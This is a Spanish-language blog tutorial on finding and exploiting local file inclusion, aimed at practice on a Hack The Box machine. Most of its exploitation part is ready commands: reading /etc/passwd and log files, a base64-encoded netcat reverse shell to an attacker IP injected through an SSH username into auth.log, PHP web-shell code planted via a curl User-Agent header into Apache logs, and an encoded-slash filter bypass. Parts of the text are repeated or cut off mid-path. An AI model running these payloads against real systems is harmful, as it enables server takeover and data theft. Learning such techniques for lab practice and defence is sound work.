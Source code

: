```yaml
---
layout: single
title: Descubrimiento y explotacion de LFI (local file inclusion)
date: 2022-05-16
classes: wide
header:
   teaser: /assets/images/hacker-directorios.jpeg
categories:
  -vulnerabilidades
  
  
tags:
  -hacking
---
```



Hola , hoy os voy a enseñar como explotar y descubrir la vulnerabilidad LFI (local file inclusion) ademas os indico una maquina 
muy para poder praticar.


esta es una vulnerabilidad la cual se suele dar en paginas cuya url llama a algunos archivos del sistema ej: http://ejemplo.com/login?file=login.php.

para poder ver algunas rutas podemos cambiar el destino y en vez de poner login.php podemos poner cualquier archivo del sistema.

```

      rutas peligrosas en local file inclusion:
      /etc/passwd filtrar por grep = $sh (para ver los usurarios)
      una vez tenemos lo que parece un usuario.
      lo probamos con el
      /home/usuario



'''

una vez que hemos descubierto la vulnerabilidad , para explotarla podemos acceder a estas rutas peligrosas

'''

     otra ruta peligrosa es
    /proc/sched_debug (enumeracion de los progresos del sistema)
    /proc/net/fib_trie (direcciones ip)
    /var/log/auth.log (todos los logs del sistema)

'''

ahora vamos a explotar el poder leer el archivo auth.log


'''



     para conseguir una ejecucion de comandos necesitamos acceder al archivo /var/log/auth.log
     una vez tenemos el archivo podemos crear un payload y codificarlo en base 64 :
     echo "nc -e /bin/bash <ip> 433 | base64; echo
     este es un ejemplo
     echo"nc -e /bin/bash 10.10.105.17 433" | base64; echo
     una vez tenemos el codigo lo copiamos
     este seria el payload final:
     echo "bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjEwNS4xNyA0MzMK" | base64 -d | bash
     ahora con ssh nos intetamos conectar con el paylodad:
     ssh <?php system("echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjEwNS4xNyA0MzMK | base64 -d | bash
     "); ?> @10.10.105.17 

'''

si no encotramos el archivo o el firewall nos rechaza la conexio podemos probrar a buscar el archivo /var/log/apache2/a>
una vez aqui podemos modificar el user agent con curl para ejecutar comandos:


'''


    si no encotramos el archivo o el firewall nos rechaza la conexio podemos probrar a buscar el archivo /var/log/apache2/a>
    una vez aqui podemos modificar el user agent con curl para ejecutar comandos:
    esto se haria tal que asi:
    curl -s -H "User-Agent: <?php system("which nc"); ?>" "http://10.10.105.17/lfi/lfi.php?page=/var/log/apache2/access.log"
    esto no ejecutara el comando que especificamos en system("") en este caso para ver si podremos obtener una shell con netcat


'''


esta seria otra forma


'''



     otra forma de hacerlo seria utilizando (otra vez el access.log , que se encuentra en la ruta /var/log/apache/access.log
     asi podremos ver los logs y los user agents
     modificando el user agent podemos injectar codigo tal que asi:
     curl "http://example.htb -H "User-Agent : <?php system(\$_GET['bash']); ?>"


'''

algunas paginas utilizan filtros a la hora de filtrar los strings /../ asi que podemos utilizar este:
%ef%bc%8f

MAQUINAS PARA PRACTICAR:
   beep -> hack the box
